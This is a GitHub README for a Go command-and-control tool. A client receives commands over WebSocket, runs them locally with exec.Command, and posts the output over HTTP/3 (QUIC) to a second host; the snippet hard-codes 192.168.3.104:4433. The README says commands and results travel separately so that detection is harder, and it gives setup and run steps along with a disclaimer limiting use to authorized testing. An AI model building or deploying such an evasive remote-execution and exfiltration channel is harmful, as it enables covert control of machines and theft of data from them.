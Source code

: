 # WebSocket & QUIC Client-Server Project

- [中文](README_zh.md)

## Overview

This project demonstrates a Go-based client-server architecture where communication happens through WebSocket, and certain events trigger HTTP/3 (QUIC) requests. The server uses WebSocket to exchange data, while HTTP/3 is used to send requests over the QUIC protocol. 

The server receives client commands over WebSocket, executes those commands, and sends the results to another endpoint via HTTP/3.

In traffic side confrontation, commands and results are not in the same package, which increases the difficulty of detection

## Features

- **WebSocket Communication**: The client connects to a WebSocket server and listens for messages. It can also send data over the WebSocket protocol.
- **Command Execution**: When the server sends a command via WebSocket, the client executes the command and retrieves the output.
- **QUIC Requests via HTTP/3**: The client's executed command results are sent to an HTTP/3 server using the QUIC protocol.
- **TLS Support**: Both WebSocket and HTTP/3 connections are secured using TLS (with an option to skip certificate verification in development).

## Components

### 1. WebSocket Server
The server listens for WebSocket connections and sends commands to connected clients. Clients receive these commands and execute them locally.

### 2. Client
The client:
- Connects to the WebSocket server over a secure connection (`wss://`).
- Listens for server-sent commands and executes them.
- Sends the execution output to an HTTP/3 server using a QUIC request.

### 3. QUIC (HTTP/3) Server
The server uses the QUIC protocol to handle incoming POST requests, which contain the result of the executed commands.

## Prerequisites

- Go 1.16+ installed.
- A valid TLS certificate and key for secure WebSocket and HTTP/3 connections.
- Libraries required:
  - [`gorilla/websocket`](https://github.com/gorilla/websocket)
  - [`quic-go/http3`](https://github.com/quic-go/quic-go)

## Setup

1. **Clone the repository**:
   ```bash
   git clone https://github.com/zhangyang9123/GoWSS-QUIC.git
   cd GoWSS-QUIC
   ```

2. **Install dependencies**:
   Ensure the required Go modules are installed:
   ```bash
   go mod tidy
   ```

3. **Generate or configure TLS certificates**:
   Ensure you have the necessary TLS certificates. You can generate them using tools like Let's Encrypt or OpenSSL.
   ```bash
   openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.crt -days 365 -nodes
   ```

5. **Run the WebSocket AND QUIC server**:
   Start the QUIC (HTTP/3) server which listens on port `4433`:
   ```bash
   go run server.go
   ```

6. **Run the WebSocket client**:
   Run the client, which connects to the WebSocket server at `wss://127.0.0.1:8888/ws` And listen to trigger QUIC server to send requests:
   ```bash
   go run client.go
   ```

## Code Overview

### `server.go`

- **WebSocket Server**:
  The server listens for WebSocket connections on port `:8888`. When a client connects, the server can send commands that the client will execute.

- **QUIC Server**:
  The server listens for incoming HTTP/3 requests on port `:4433` secured by TLS. The client sends POST requests containing the results of command executions.

```go
http.HandleFunc("/ws", handleWebSocket)
log.Println("WebSocket server started on :8888")
log.Fatal(http.ListenAndServeTLS(":8888", certFile, keyFile, nil))
```

### `client.go`

- **WebSocket Client**:
  The client connects to the WebSocket server using a TLS-secured WebSocket connection (`wss://`). It listens for commands from the server, executes them locally, and sends the output to the QUIC server.

- **QUIC Request**:
  After executing the command received from the WebSocket server, the client sends the result via a POST request to the QUIC server using the HTTP/3 protocol.

```go
cmd := exec.Command(program, args...)
output, err := cmd.CombinedOutput()
// Send result to QUIC server
req, err := http.NewRequestWithContext(context.Background(), http.MethodPost, "https://192.168.3.104:4433", bytes.NewReader(output))
```

## How It Works

1. **Client-Server Communication**:
   - The client connects to the WebSocket server (`wss://127.0.0.1:8888/ws`).
   - The server sends a command to the client, which the client executes.
   - The result of the executed command is then sent over HTTP/3 to the server at `https://127.0.0.1:4433`.

2. **Randomized Behavior**:
   The client has a built-in feature where it randomly chooses whether to send the command output via QUIC. This can be modified for deterministic behavior.

## Example

1. **Start the server**:
   Run the WebSocket server (`server.go`) which also handles QUIC requests.

2. **Run the client**:
   Start the client (`client.go`) and connect it to the WebSocket server.

3. **Send a command from the server**:
   You can configure the server to send a command like:
   ```bash
   whoami
   ```

4. **Observe the results**:
   The client will execute the command and send the results to the HTTP/3 server via QUIC.
---

# Disclaimer
This tool is only intended for legally authorized enterprise security construction activities. If you need to test the usability of this tool, please set up your own target drone environment.
If you engage in any illegal behavior while using this tool, you shall bear the corresponding consequences on your own, and we will not assume any legal or joint liability.
Before installing and using this tool, please carefully read and fully understand the contents of each clause. Restrictions, disclaimers, or other clauses that involve your significant rights and interests may be highlighted in bold, underlined, or other forms. Unless you have fully read, understood, and accepted all the terms of this agreement, please do not install and use this tool. Your use or any other express or implied acceptance of this agreement shall be deemed as your reading and agreement to be bound by this agreement.
